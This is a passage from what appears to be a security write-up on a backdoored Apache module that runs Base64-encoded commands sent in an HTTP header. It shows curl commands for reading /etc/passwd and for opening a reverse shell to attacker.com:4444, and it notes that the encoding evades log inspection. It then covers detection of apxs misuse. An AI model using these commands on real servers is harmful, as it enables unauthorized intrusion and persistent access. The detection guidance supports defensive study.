 The server responds with Base64-encoded output: `d3d3LWRhdGE=`

### Decoding the Response

![Decode Command Output](/modplant-command-output.png)

Decode the server's response to view command output:

```bash
echo "d3d3LWRhdGE=" | base64 -d
# Output: www-data
```

This demonstrates successful command execution with full output exfiltration. The Base64 encoding provides several benefits:

- Obfuscates command content from casual log inspection
- Handles binary data and special characters safely
- Maintains compatibility with HTTP protocol requirements

### Advanced Usage Examples

**File enumeration:**
```bash
# Command: ls -la /etc/passwd
echo "bHMgLWxhIC9ldGMvcGFzc3dk" | base64
curl -H "X-Request-ID: bHMgLWxhIC9ldGMvcGFzc3dk" http://target/
```
But, you also supposed to ensure the proper access for the user by which the apache service is running, in my case `www-data` default user does not have those excessive privileges, but it is also the vector for backdooring the target server.

**Reverse shell establishment:**
```bash
# Command: bash -i >& /dev/tcp/attacker.com/4444 0>&1
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vNDQ0NCAwPiYx" | base64
curl -H "X-Request-ID: YmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vNDQ0NCAwPiYx" http://target/
```

## Detection and Hunting Perspective

### Indicators of Attack (IOA)

Defenders should monitor for the following suspicious activities:

#### 1. Suspicious `apxs` Execution

The `apxs` tool is rarely used in production environments outside of initial server setup. Monitor process execution logs for:

```bash
# Detection via Sysmon or auditd
apxs -i -a -c *.c
```

**Detection logic:**
- Unusual parent processes spawning `apxs`
- `apxs` execution by non-administrative users
- Compilation of `.c` files in unexpected directories (e.g., `/tmp`, `/var/www`)
